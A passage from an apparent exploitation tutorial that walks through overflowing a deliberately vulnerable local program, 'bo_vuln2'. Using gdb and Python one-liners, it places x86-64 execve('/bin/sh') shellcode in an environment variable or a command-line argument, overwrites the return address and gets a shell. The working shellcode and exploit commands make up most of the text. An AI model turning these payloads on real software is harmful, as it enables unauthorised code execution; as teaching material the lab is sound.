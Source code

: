 ```
(gdb) d
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
...
process 18513 is executing new program: /usr/bin/bash
sh-4.4$
```

> Tip: Python helps us little-endian (reverse) the address bytes by using `[::-1]`.

And in the terminal:

```
$ env - PWD=$PWD MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
sh-4.4$
```

Note that `$PWD` is set first, `$SHLVL` is set last, and that `$PWD` is used in front of the program to execute it with full path. Also note that our input length does not affect the location of the environment variable, so we don't need to take this into consideration.

> Tip: A huge NOP-sled in front of the shellcode can make *guessing* the correct address easier.

#### Shellcode in command line argument *n*

Another option for exploiting the above program is putting the shellcode in the second command line argument and using the first command line argument to fill the buffer and overwrite ret.

Run the program in gdb using exploit code with dummy ret, break before cp returns to prevent a crash:

```bash
$ env - gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) disas cp
...
   0x0000000000401140 <+26>:    callq  0x401030 <strcpy@plt>
   0x0000000000401145 <+31>:    nop
...
(gdb) b *cp+31
(gdb) r `python -c 'print 16 * "a" + "bbbbbbbb" + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
```

Note the space (" ") separating the arguments. To find the address of the second argument, we can look at the bytes before `environ`:

```
(gdb) x/64xb *(char **)environ-64
0x7fffffffef61: 0x75    0x6c    0x6e    0x32    0x00    0x61    0x61    0x61
0x7fffffffef69: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffef71: 0x61    0x61    0x61    0x61    0x61    0x62    0x62    0x62
0x7fffffffef79: 0x62    0x62    0x62    0x62    0x62    0x00    0x48    0x31
0x7fffffffef81: 0xd2    0x48    0xbb    0xff    0x2f    0x62    0x69    0x6e
0x7fffffffef89: 0x2f    0x73    0x68    0x48    0xc1    0xeb    0x08    0x53
0x7fffffffef91: 0x48    0x89    0xe7    0x48    0x31    0xc0    0x50    0x57
0x7fffffffef99: 0x48    0x89    0xe6    0xb0    0x3b    0x0f    0x05    0x00
```
